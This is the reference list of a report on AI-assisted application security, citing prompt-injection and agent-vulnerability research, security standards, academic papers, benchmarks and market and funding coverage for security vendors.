- Pillar Security — Rules File Backdoor https://www.pillar.security/blog/new-vulnerability-in-github-copilot-and-cursor-how-hackers-can-weaponize-code-agents · sandbox escapes https://www.pillar.security/blog/the-week-of-sandbox-escapes · site https://www.pillar.security/
- Legit Security — CamoLeak https://www.legitsecurity.com/blog/camoleak-critical-github-copilot-vulnerability-leaks-private-source-code · GitLab Duo https://www.legitsecurity.com/blog/remote-prompt-injection-in-gitlab-duo
- Invariant Labs — GitHub MCP https://invariantlabs.ai/blog/mcp-github-vulnerability · tool poisoning https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks
- Trail of Bits — prompt injection to RCE https://blog.trailofbits.com/2025/10/22/prompt-injection-to-rce-in-ai-agents/ · category index https://blog.trailofbits.com/categories/prompt-injection/
- Check Point Research — MCPoison https://research.checkpoint.com/2025/cursor-vulnerability-mcpoison/
- Orca Security — RoguePilot https://orca.security/resources/blog/roguepilot-github-copilot-vulnerability/
- Noma Labs — ForcedLeak https://noma.security/noma-labs/forcedleak/
- Tracebit — Gemini CLI https://tracebit.com/blog/code-exec-deception-gemini-ai-cli-hijack
- NCC Group — role-specific impact https://www.nccgroup.com/research/where-you-inject-matters-the-role-specific-impact-of-prompt-injection-attacks-on-openai-models/ · non-determinism https://www.nccgroup.com/research/non-deterministic-nature-of-prompt-injection/
- Cloudflare Cloudforce One — https://www.cloudflare.com/cloudforce-one/research/adversarial-deception-a-study-of-indirect-prompt-code-injection/
- Anthropic — prompt-injection defenses https://www.anthropic.com/news/prompt-injection-defenses · Claude Code Security https://www.anthropic.com/news/claude-code-security · sandboxing engineering https://www.anthropic.com/engineering/claude-code-sandboxing
- Snyk — ToxicSkills https://snyk.io/blog/toxicskills-malicious-ai-agent-skills-clawhub/ · agentic development telemetry https://snyk.io/blog/agentic-development-security-ai-coding-risk/ · Invariant acquisition https://snyk.io/news/snyk-acquires-invariant-labs-to-accelerate-agentic-ai-security-innovation/
- Off-by-1 Labs / FLAWED — https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/
- Meta Engineering — AutoPatchBench https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/
- Broken by Default (formal verification of LLM output) — https://vibe-eval.com/updates/broken-by-default-formal-verification/
- Apiiro — https://apiiro.com/blog/4x-velocity-10x-vulnerabilities-ai-coding-assistants-are-shipping-more-risks/
- GitGuardian — Secrets Sprawl 2026 https://blog.gitguardian.com/the-state-of-secrets-sprawl-2026/ · Series C https://blog.gitguardian.com/series-c-pr/
- Veracode — 2026 GenAI report https://www.veracode.com/blog/2026-genai-code-security-report-ai-risk/
- GitClear — https://www.gitclear.com/the_ai_code_quality_maintainability_gap
- Nx postmortem — https://nx.dev/blog/s1ngularity-postmortem
- AWS Security Bulletin AWS-2025-015 — https://aws.amazon.com/security/security-bulletins/AWS-2025-015/
- Backslash — MCP research https://www.backslash.security/blog/hundreds-of-mcp-servers-vulnerable-to-abuse · MCP solution https://www.backslash.security/press-releases/backslash-security-introduces-comprehensive-mcp-security-solution-for-vibe-coding-and-ai-native-software-development
- InfoQ (Opengrep fork) — https://www.infoq.com/news/2025/02/semgrep-forked-opengrep/
- Trail of Bits Buttercup — https://trailofbits.com/buttercup/ · CyberSecAI AIxCC index https://cybersecai.github.io/software/aixcc/ · AIxCC archive https://archive.aicyberchallenge.com/

### Standards, specifications and platform documentation

- OWASP Top 10:2025 — https://owasp.org/Top10/2025/ · introduction https://owasp.org/Top10/2025/0x00_2025-Introduction/ · project https://owasp.org/www-project-top-ten/
- OWASP LLM01:2025 Prompt Injection — https://genai.owasp.org/llmrisk/llm01-prompt-injection/ · LLM Top 10 project https://owasp.org/www-project-top-10-for-large-language-model-applications/ · v2025 PDF https://owasp.org/www-project-top-10-for-large-language-model-applications/assets/PDF/OWASP-Top-10-for-LLMs-v2025.pdf · GenAI LLM Top 10 2026 https://genai.owasp.org/resource/owasp-genai-llm-top-10-2026/ · Agentic Top 10 2026 https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/ · Agentic Skills Top 10 https://owasp.org/www-project-agentic-skills-top-10/ · ASVS https://owasp.org/www-project-application-security-verification-standard/ · AI Testing Guide https://owasp.org/www-project-ai-testing-guide/ · Benchmark https://owasp.org/www-project-benchmark/
- MITRE CWE — https://cwe.mitre.org/ · news https://cwe.mitre.org/news/index.html · 2025 Top 25 https://cwe.mitre.org/top25/archive/2025/2025_cwe_top25.html
- NIST — SSDF SP 800-218 https://csrc.nist.gov/pubs/sp/800/218/final · SP 800-218A https://csrc.nist.gov/pubs/sp/800/218/a/final · AI 100-2 E2025 https://csrc.nist.gov/pubs/ai/100/2/e2025/final (PDF https://nvlpubs.nist.gov/nistpubs/ai/NIST.AI.100-2e2025.pdf) · AI RMF https://www.nist.gov/itl/ai-ri<REDACTED-OPENAI-KEY> · SP 800-53 Rev.5 https://csrc.nist.gov/pubs/sp/800/53/r5/upd1/final · SARD https://samate.nist.gov/SARD/ · Juliet suite 112 https://samate.nist.gov/SARD/test-suites/112
- FIRST — CVSS https://www.first.org/cvss/ · CVSS v4.0 https://www.first.org/cvss/v4-0/ · EPSS https://www.first.org/epss/ · EPSS model https://www.first.org/epss/model
- CISA — KEV https://www.cisa.gov/known-exploited-vulnerabilities-catalog · SSVC https://www.cisa.gov/stakeholder-specific-vulnerability-categorization-ssvc
- SLSA v1.1 — https://slsa.dev/spec/v1.1/ · levels https://slsa.dev/spec/v1.1/levels · CycloneDX https://cyclonedx.org/specification/overview/ · SPDX https://spdx.dev/use/specifications/ · in-toto https://in-toto.io/ · Sigstore https://www.sigstore.dev/
- EU Cyber Resilience Act — https://digital-strategy.ec.europa.eu/en/policies/cyber-resilience-act
- NVD / CVE records — CVE-2025-54135 https://nvd.nist.gov/vuln/detail/CVE-2025-54135 · CVE-2025-54795 https://nvd.nist.gov/vuln/detail/CVE-2025-54795 · CVE-2025-55284 https://nvd.nist.gov/vuln/detail/CVE-2025-55284 · CVE-2025-64755 https://nvd.nist.gov/vuln/detail/CVE-2025-64755 · CVE-2025-66032 https://nvd.nist.gov/vuln/detail/CVE-2025-66032 · CVE-2025-59041 https://nvd.nist.gov/vuln/detail/CVE-2025-59041 · CVE-2025-32711 https://nvd.nist.gov/vuln/detail/cve-2025-32711
- Anthropic Claude Code docs — skills https://docs.claude.com/en/docs/claude-code/skills · agent skills overview https://docs.claude.com/en/docs/agents-and-tools/agent-skills/overview · sub-agents https://docs.claude.com/en/docs/claude-code/sub-agents · hooks https://docs.claude.com/en/docs/claude-code/hooks · plugins https://docs.claude.com/en/docs/claude-code/plugins · plugin marketplaces https://docs.claude.com/en/docs/claude-code/plugin-marketplaces · MCP https://docs.claude.com/en/docs/claude-code/mcp · settings https://docs.claude.com/en/docs/claude-code/settings · sandboxing https://docs.claude.com/en/docs/claude-code/sandboxing · security https://docs.claude.com/en/docs/claude-code/security · Agent SDK https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview · GitHub Actions https://docs.claude.com/en/docs/claude-code/github-actions · Claude Code on the web https://docs.claude.com/en/docs/claude-code/claude-code-on-the-web
- OpenAI Codex docs — AGENTS.md https://developers.openai.com/codex/guides/agents-md · local config https://developers.openai.com/codex/local-config · Codex Security https://developers.openai.com/codex/security · running Codex safely https://openai.com/index/running-codex-safely/ · Aardvark https://openai.com/index/introducing-aardvark/
- Cursor docs — rules https://cursor.com/docs/context/rules · hooks https://cursor.com/docs/agent/hooks · MCP https://cursor.com/docs/context/mcp
- Cline / Copilot — https://docs.cline.bot/features/cline-rules · repository instructions https://docs.github.com/en/copilot/how-tos/configure-custom-instructions/add-repository-instructions · agent firewall https://docs.github.com/en/copilot/how-tos/use-copilot-agents/coding-agent/customize-the-agent-firewall · Copilot MCP https://docs.github.com/en/copilot/how-tos/provide-context/use-mcp/extend-copilot-chat-with-mcp
- AGENTS.md standard — https://agents.md/
- GitHub platform docs — Checks runs https://docs.github.com/en/rest/checks/runs · code scanning API https://docs.github.com/en/rest/code-scanning/code-scanning · SARIF support https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning · secret scanning API https://docs.github.com/en/rest/secret-scanning/secret-scanning · Dependabot alerts API https://docs.github.com/en/rest/dependabot/alerts · App permissions https://docs.github.com/en/apps/creating-github-apps/registering-a-github-app/choosing-permissions-for-a-github-app · Actions hardening https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions · GITHUB_TOKEN https://docs.github.com/en/actions/concepts/security/github_token · OIDC https://docs.github.com/en/actions/concepts/security/openid-connect · rulesets https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets · rate limits https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api · CodeQL CLI docs https://docs.github.com/en/code-security/concepts/code-scanning/codeql/codeql-cli · CodeQL analysis https://docs.github.com/en/code-security/codeql-cli/getting-started-with-the-codeql-cli/analyzing-your-code-with-codeql-queries · Copilot Autofix https://docs.github.com/en/code-security/concepts/code-scanning/autofix-for-code-scanning
- Tool documentation — Trivy reporting https://trivy.dev/docs/latest/configuration/reporting/ · Trivy air-gap https://trivy.dev/docs/latest/advanced/air-gap/ · Trivy DB https://trivy.dev/docs/latest/configuration/db/ · osv-scanner output https://google.github.io/osv-scanner/output/ · zizmor usage https://docs.zizmor.sh/usage/ · Semgrep CLI reference https://semgrep.dev/docs/cli-reference · Semgrep integrating https://docs.semgrep.dev/integrating · Semgrep licensing https://docs.semgrep.dev/licensing · Semgrep rules license https://semgrep.dev/legal/rules-license · Sonar license https://www.sonarsource.com/license/ · Psalm CLI https://psalm.dev/docs/running_psalm/command_line_usage/ · KICS results https://docs.kics.io/latest/results/ · Anchore OSS docs https://oss.anchore.com/docs/guides/vulnerability/getting-started/ · Anchore announcements https://oss.anchore.com/docs/announcements/ · Dependency-Track docs https://docs.dependencytrack.org/ · npm audit https://docs.npmjs.com/cli/v11/commands/npm-audit · ZAP docker https://www.zaproxy.org/docs/docker/ · Cisco mcp-scanner docs https://cisco-ai-defense.github.io/docs/mcp-scanner · Semgrep MCP guide https://semgrep.dev/blog/2025/a-security-engineers-guide-to-mcp

### Academic papers and formal studies

- Design Patterns for Securing LLM Agents against Prompt Injections — https://arxiv.org/abs/2506.08837
- CaMeL — https://arxiv.org/abs/2503.18813 · PDF https://arxiv.org/pdf/2503.18813 · code https://github.com/google-research/camel-prompt-injection
- Spotlighting (Hines et al.) — https://arxiv.org/abs/2403.14720
- AgentDojo — https://arxiv.org/abs/2406.13352 · site https://agentdojo.spylab.ai/
- InjecAgent — https://arxiv.org/abs/2403.02691
- Coding-agent security survey (Jan 2026) — https://arxiv.org/html/2601.17548v1
- MCP client testing — https://arxiv.org/html/2603.21642v1
- Gemini indirect-injection defenses — https://arxiv.org/pdf/2505.14534
- Soft Instruction De-escalation — https://arxiv.org/abs/2510.21057 · agent firewalls https://arxiv.org/abs/2510.05244
- AgentVigil — https://aclanthology.org/2025.findings-emnlp.1258.pdf
- IRIS (neurosymbolic LLM+CodeQL) — https://arxiv.org/abs/2405.17238
- SecLLMHolmes — https://arxiv.org/abs/2312.12575
- SAST comparison for Java (Li, Chen, Fan et al., ESEC/FSE '23) — https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf
- SAST on real-world Java vulnerabilities (Lund University, 2025) — https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961
- Static analysis in embedded OSS (Shen et al.) — https://machiry.github.io/files/emsast.pdf
- Static analysis for secure code review (Charoenwet et al.) — https://arxiv.org/html/2407.12241v1
- SAST vs LLMs for repo-level detection (Zhou et al.) — https://arxiv.org/html/2407.16235v1
- Secret-detection tool comparison / SecretBench (Basak et al.) — https://bradreaves.net/publication/bcrw23/bcrw23.pdf
- Adversarial analysis of SCA tools (Ivanova et al., ISC '24) — https://cyberlab.usask.ca/papers/SCA_Tools_analysis__ISC24.pdf
- SCA vulnerability reporting comparison (Imtiaz et al., ESEM 2021) — https://arxiv.org/abs/2108.12078
- SCA for vulnerability detection in Java (Zhao, Chen et al., ESEC/FSE '23) — https://sen-chen.github.io/img_cs/pdf/fse2023-sca.pdf
- CyberSecEval 1/2/3 — https://arxiv.org/abs/2312.04724 · https://arxiv.org/abs/2404.13161 · https://arxiv.org/abs/2408.01605
- MCPSecBench — https://arxiv.org/abs/2508.13220
- CVE-Bench — https://arxiv.org/abs/2503.17332
- CyberGym — https://arxiv.org/abs/2506.02548
- AutoPenBench — https://arxiv.org/abs/2410.03225
- AgentHarm — https://arxiv.org/abs/2410.09024
- ARVO — https://arxiv.org/html/2408.02153v2
- EchoLeak case study — https://arxiv.org/html/2509.10540v1
- LLM patch-assistance human study + VulnRepairEval — https://arxiv.org/html/2606.25973v1
- AI-authored commit measurement (SMU) — https://arxiv.org/html/2603.28592v2
- Package-hallucination replication (2026) — https://arxiv.org/abs/2605.17062
- MCP ecosystem study (Queen's University) — https://arxiv.org/html/2506.13538v5
- Thea (ICSE '26, model-internals intervention) — https://abhikrc.com/pdf/ICSE26-security.pdf
- FuzzingBrain paper — https://huggingface.co/papers/2509.07225
- AI-code security quality (cited by muence-ai/vibesec) — https://arxiv.org/abs/2512.03262
- Stanford/Perry et al. (AI assistants and insecure code) — https://kumarde.com/papers/codex.pdf
- NYU "Asleep at the Keyboard" — https://cyber.nyu.edu/2021/10/15/ccs-researchers-find-github-copilot-generates-vulnerable-code-40-of-the-time/
- CSET Georgetown — https://cset.georgetown.edu/publication/cybersecurity-risks-of-ai-generated-code/
- SecBench.js (ICSE 2023) — https://dl.acm.org/doi/pdf/10.1109/ICSE48619.2023.00096

### Benchmarks

- OWASP Benchmark — https://owasp.org/www-project-benchmark/ · scorecards https://github.com/OWASP-Benchmark/BenchmarkJava/blob/master/scorecard/OWASP_Benchmark_Home.html
- Juliet / SARD — https://samate.nist.gov/SARD/test-suites/112 · https://samate.nist.gov/SARD/
- CWE-Bench-Java — https://github.com/iris-sast/cwe-bench-java
- OpenSSF CVE Benchmark — https://github.com/ossf-cve-benchmark/ossf-cve-benchmark
- AutoPatchBench / CyberSecEval 4 — https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/ · https://meta-llama.github.io/PurpleLlama/CyberSecEval/docs/intro
- ARVO — https://github.com/n132/ARVO-Meta
- SEC-bench — https://github.com/SEC-bench/SEC-bench
- CyberGym — https://www.cybergym.io/ · ExploitGym https://github.com/sunblaze-ucb/exploitgym
- BaxBench — https://baxbench.com/ · code https://github.com/logic-star-ai/baxbench
- SecLLMHolmes — https://github.com/ai4cloudops/SecLLMHolmes
- Agent Security Bench — https://github.com/agiresearch/asb · site https://luckfort.github.io/ASBench/
- AgentHarm dataset — https://huggingface.co/datasets/ai-safety-institute/AgentHarm
- SWE-bench (harness pattern only) — https://www.swebench.com/
- DARPA AIxCC — results https://www.darpa.mil/news/2025/aixcc-results · scoring https://www.darpa.mil/news/2025/ai-cyber-challenge-scoring · SoK https://arxiv.org/html/2602.07666v4 · org https://github.com/aixcc-finals
- Deliberately vulnerable apps — https://github.com/WebGoat/WebGoat · https://github.com/juice-shop/juice-shop · https://github.com/digininja/DVWA · https://github.com/OWASP/NodeGoat
- SECBENCH (TQRG) — https://tqrg.github.io/secbench/

### Market and competitive data

- Stack Overflow 2025 Developer Survey — https://stackoverflow.co/company/press/archive/stack-overflow-2025-developer-survey/ · full results https://survey.stackoverflow.co/2025
- Gartner vibe-coding forecast (as reported) — https://www.techshotsapp.com/technology/gartner-predicts-vibe-coding-will-power-40-of-enterprise-software-by-2028
- Gartner AppSec spend summary — https://softwarestrategiesblog.com/2026/04/01/top-10-fastest-growing-security-categories-gartner-2026-forecast/
- ResearchAndMarkets AppSec market — https://www.globenewswire.com/news-release/2026/08/13/3344704/28124/en/global-application-security-market-to-reach-us-67-2-billion-in-2026-as-ai-api-and-software-supply-chain-risks-accelerate-demand.html
- Frost & Sullivan ASPM 2025–2030 — https://store.frost.com/application-security-posture-management-aspm-market-global-2025-2030.html
- Checkmarx enterprise survey coverage — https://www.devclass.com/security/2026/06/22/devs-know-ai-code-is-riddled-with-holes-but-ship-it-anyway/5259237 · https://www.cio.com/article/4183209/enterprises-know-ai-generated-code-is-vulnerable-theyre-shipping-it-anyway.html
- Copilot user milestone — https://techcrunch.com/2025/07/30/github-copilot-crosses-20-million-all-time-users/
- GitHub — Copilot Autofix blog https://github.blog/news-insights/product-news/secure-code-more-than-three-times-faster-with-copilot-autofix/ · security plans https://github.com/security/plans · pricing https://github.com/pricing
- Google CodeMender — https://deepmind.google/blog/introducing-codemender-an-ai-agent-for-code-security/ · https://cloud.google.com/blog/products/identity-security/find-and-fix-software-vulnerabilities-with-codemender
- Anthropic security plugin coverage — https://www.helpnetsecurity.com/2026/05/27/anthropic-claude-code-security-guidance-plugin/
- Snyk plans — https://snyk.io/plans/ · valuation https://finance.yahoo.com/news/cybersecurity-startup-snyk-valued-7-015133451.html · Contrary profile https://research.contrary.com/company/snyk
- Semgrep — pricing https://semgrep.dev/pricing · Series D https://semgrep.dev/blog/2025/series-d-announcement
- Sonar — plans https://www.sonarsource.com/plans-and-pricing/ · AI Code Assurance https://docs.sonarsource.com/sonarqube-server/2026.1/ai-capabilities/ai-code-assurance · Gitar acquisition https://www.prnewswire.com/news-releases/sonar-acquires-gitar-expanding-code-verification-platform-to-include-ai-code-review-302778966.html · $412M round https://www.insightpartners.com/ideas/sonarsource-the-leading-platform-for-clean-code-raises-412-million-in-new-investment/
- CodeRabbit — https://www.reuters.com/technology/ai-code-review-platform-coderabbit-valued-15-billion-latest-funding-round-2026-08-12/ · plans https://docs.coderabbit.ai/management/plans
- Socket — Series C https://socket.dev/blog/series-c · Cooley coverage https://www.cooley.com/news/coverage/2026/2026-05-20-socket-raises-$60-million-series-c-at-$1-billion-valuation · slopsquatting https://socket.dev/blog/slopsquatting-how-ai-hallucinations-are-fueling-a-new-class-of-supply-chain-attacks
- Endor Labs — Series B https://www.endorlabs.com/learn/why-we-raised-a-93m-series-b-in-this-market · pricing https://www.endorlabs.com/pricing
- Aikido — pricing https://www.aikido.dev/pricing · Series B https://www.sahmcapital.com/news/content/brief-aikido-security-raises-60-million-series-b-at-1-billion-valuation-to-lead-software-security-2026-01-14
- ZeroPath — pricing https://zeropath.com/pricing · RSAC profile https://zeltser.com/media/rsac-2026-sandbox/zeropath · Caplight https://www.caplight.com/company/zeropath
- Pixee — pricing https://www.pixee.ai/pricing · seed coverage https://devcuration.substack.com/p/pixee-seed-round · Checkmarx vs Veracode comparison https://www.pixee.ai/blog/checkmarx-vs-veracode
- Nullify — https://www.globenewswire.com/news-release/2026/02/05/3232827/0/en/nullify-closes-seed-funding-round-with-12-5-million-investment-to-scale-growth-of-first-ever-ai-workforce-for-product-security.html · pricing https://www.nullify.ai/pricing
- Mobb — pricing https://mobb.ai/pricing · seed https://www.securityweek.com/mobb-raises-5-4-million-in-seed-funding-for-automatic-vulnerability-fixing-tool/
- Corgea — pricing https://corgea.com/pricing · seed https://fintech.global/2024/11/08/ai-driven-cybersecurity-startup-corgea-raises-2-6m-in-seed-round/
- DryRun Security — FAQ https://www.dryrun.security/faqs · seed https://www.securityweek.com/application-security-firm-dryrun-raises-8-7-million-in-seed-funding/ · AI-coding coverage https://securitybrief.co.uk/story/dryrun-raises-usd-8-7m-to-secure-ai-driven-coding
- Checkmarx / Tromzo — https://www.privsource.com/acquisitions/deal/checkmarx-acquires-tromzo-to-advance-agentic-application-security-mwSXZe · agentic development https://www.globenewswire.com/news-release/2026/03/16/3256259/0/en/checkmarx-redefines-application-security-for-the-age-of-agentic-development.html
- Veracode — Thoma Bravo https://www.thomabravo.com/press-releases/thoma-bravo-completes-acquisition-of-veracode-software · pricing summary https://checkthat.ai/brands/veracode/pricing
- Qwiet / Harness — https://www.prnewswire.com/news-releases/harness-strengthens-its-application-security-business-with-acquisition-of-qwiet-ai-302569086.html · autofix docs https://docs.shiftleft.io/sast/autofix · G2 pricing https://www.g2.com/products/qwiet-ai/pricing
- Zenity — https://zenity.io/company-overview/newsroom/company-news/zenity-raises-125-million-to-secure-the-era-of-1-billion-ai-agents
- Noma Security — https://noma.security/blog/noma-security-raises-100m-to-drive-adoption-of-ai-agent-security/ · newsroom https://noma.security/newsroom/
- Straiker — https://www.straiker.ai/blog/straiker-raises-64m-series-a-to-secure-the-agentic-workforce
- XBOW — https://xbow.com/news/xbow-raises-120m-to-scale
- Escape — https://escape.tech/blog/escape-raises-18m-series-a/
- StepSecurity — pricing https://www.stepsecurity.io/pricing · Nx supply-chain alert https://www.stepsecurity.io/blog/supply-chain-security-alert-popular-nx-build-system-package-compromised-with-data-stealing-malware
- Backslash Series A — https://www.backslash.security/press-releases/backslash-security-raises-19m-series-a-to-secure-vibe-coding-boom-in-the-enterprise-bolsters-board-with-cybersecurity-industry-leader
- Cycode / Bearer / Cygives — https://techcrunch.com/2024/03/05/cycode-acquires-bearer-to-accelerate-its-move-into-ai-enhanced-security-remediation/ · https://cycode.com/press/cycode-completes-acquisition-of-bearer-and-announces-new-cygives-developer-initiative/
- Lasso — https://www.lasso.security/newsroom?afabb2e6_page=5 · MCP gateway release https://www.lasso.security/resources/lasso-releases-first-open-source-security-gateway-for-mcp
- Baz / Trent AI / Oplane / Modelence — https://siliconangle.com/2026/06/29/exclusive-agentic-coding-startup-baz-brings-code-reviews-planning-stage-extends-seed-funding-17m/ · https://siliconangle.com/2026/04/07/ai-agent-security-startup-trent-ai-launches-13m-funding/ · https://www.arctictoday.com/%F0%9F%87%B8%F0%9F%87%AA-oplane-raises-5-2m-to-build-security-into-ai-first-development/ · https://techcrunch.com/2026/01/28/modelence-raises-13-million-to-smooth-out-the-vibe-coding-stack/
- Benchmark-marketing caution (self-favouring, publisher-acknowledged bias) — https://everylayer.io/blog/ai-sast-vs-traditional-sast

**Provenance note.** Every URL above appears in the research dossiers underlying this report; no URL was generated from memory. Where a source is a vendor claim it is labelled **(V)**, independent research **(I)**, and third-party aggregator **(A)** in §19. Figures that the underlying research marked `n.a.` or **Unverified** — notably tool runtime on real repositories, most offline guarantees, in-toto and Sigstore version numbers, EPSS model version, ARVO/AgentDojo/BaxBench licenses, and MITRE ATLAS sub-technique IDs — are reproduced as unavailable rather than estimated.
